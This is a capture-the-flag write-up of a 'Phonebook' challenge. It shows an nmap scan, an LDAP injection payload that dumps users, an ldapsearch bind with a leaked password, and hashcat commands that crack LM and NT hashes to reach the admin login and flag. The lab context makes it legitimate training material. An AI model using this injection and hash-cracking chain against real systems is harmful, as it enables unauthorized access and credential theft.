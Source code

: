 # Phonebook

Hi, packet inspector,

you should already get access to the phone book – as a new employee – but the AI is too busy right now. This condition
can last several ... who knows ... years?

Your task is to gain access to the application running on http://phonebook.mysterious-delivery.tcc:40000.

May the Packet be with you!

---

![](portal.png)

Looking into the web source code, I found the following comments:

```
<!-- New LDAP server host: 10.99.0.121 -->
<!-- 1/2/2022 Temporary search filter (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_))(memberof=cn=nonmigrated,ou=groups,dc=local,dc=tcc)) -->
<!-- 6/8/2022 Filter after migration  (|(&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=_DATA_}))) -->
```

Phonebook's IP is `10.99.0.120` so this is a different node. Let's `nmap`:

```
$ nmap -sV 10.99.0.121
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-25 22:13 CEST
Nmap scan report for ldap.mysterious-delivery.tcc (10.99.0.121)
Host is up (0.026s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE VERSION
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.85 seconds
```

Indeed, it seems to be running **LDAP** on `389`.

Next, I tested both LDAP filters. The server responds with `Malformed filter - Try harder;-)`.

Then, I tried to send `*`. Great, it enumerates all the users.

![](users.png)

The filter value seems to be passed into `uid={VALUE}` which corresponds with the filter examples found in the source
code.

Let's try [LDAP injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection).
I got lucky with `*)(uid=*))(|(uid=*`:

![](injection.png)

This is great, we got a couple new users like `admin1`, `admin2` and mainly `ldap_sync` even with the
password `gasg35faCasgt%AF`.

BTW, this is how the payload changes the LDAP filter. Effectively, it becomes just `(uid=*)`:

```
(|
  (&(memberof=cn=users,ou=groups,dc=local,dc=tcc)(uid=*)(uid=*))
  (|(uid=*))
)
```

Next logical step is to use the found user and password, connect to LDAP and get as much info as possible:

```
$ ldapsearch -H ldap://10.99.0.121 -x -D "uid=ldap_sync,ou=people,dc=local,dc=tcc" -w 'gasg35faCasgt%AF' -b "DC=local,DC=tcc"

# extended LDIF
#
# LDAPv3
# base <DC=local,DC=tcc> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# local.tcc
dn: dc=local,dc=tcc
objectClass: top
objectClass: dcObject
objectClass: organization
o: nodomain
dc: local

..
```

The full output is in [ldap-dump.txt](ldap-dump.txt).

The file contains Samba passwords.

```
sambaNTPassword: 32644235283BC5561CC7FE4FFFADDAEE
sambaLMPassword: 48448F207404DB05F3BAC3A9216F6D52
```

[LM hash](https://en.wikipedia.org/wiki/LAN_Manager#Password_hashing_algorithm) is pretty weak.
Let's try to crack it with **hashcat**. At first, I grepped all the passwords into a file [LanMan.txt](LanMan.txt).

```
$ hashcat -m 3000 -a 3 LanMan.txt
```

The default hashcat's strategy quickly cracks 133 out of 134 passwords!

Of course, the only uncracked password is for `admin2` (our web admin).

At least we cracked the first half of the passwords, which is `TOOSTRO` (perhaps **TOO STRONG** ???).

To crack the second half, I used a bruteforce attack. Inspired by the question
[Unable to crack second half of LM hash ](https://hashcat.net/forum/thread-8771.html) on hashcat forum:

```
$ hashcat 48448F207404DB05F3BAC3A9216F6D52 -m 3000 -a 3 -1 ?u?d?s ?1?1?1?1?1?1?1
```

It worked! In a couple of minutes, I got the second half `NGPASS.`
So the full password is `TOOSTRONGPASS.`

However, this is not the original password. It's important to understand how LM hashes are generated:
> The user’s password is converted to uppercase.

So, the original password might be something like `TooStrongPass.`, `TooSTRONGPass.` or **any other combination**.

I created Python script [find-password.py](../../../../src-python/catch22/Phonebook) to enumerate all the
possibilities and find the correct one by comparing against `sambaNTPassword` hash.
I was a bit disappointed when it **found no match**.

So, what else... Back to LM hash rules. There is one more important:
> The user's password is restricted to a maximum of fourteen characters.

Apparently, the original password might have been longer! How do I recover it? I have the NT hash and I know
how the passwords starts. I'm **probably missing only a couple of characters**. Let's try
hashcat [Hybrid attack](https://hashcat.net/wiki/doku.php?id=hybrid_attack).

At first, I dumped all the 8192 password prefixes into [passwords.txt](passwords.txt).
Then I ran hashcat, incrementing the number of extra characters:

```
$ hashcat 32644235283BC5561CC7FE4FFFADDAEE -m 1000 -a 6 passworsds.txt ?a?a?a?a
```

After a couple of minutes, the hash was cracked:

```
32644235283bc5561cc7fe4fffaddaee:TooStrongPass.2022
```

Yay! The last step, login on the web as `admin2 / TooStrongPass.2022` and go to Settings:

![](settings.png)

Flag is `FLAG{iLcT-HnNF-egs3-mCSN}`.

This was a very nice (and long) challenge!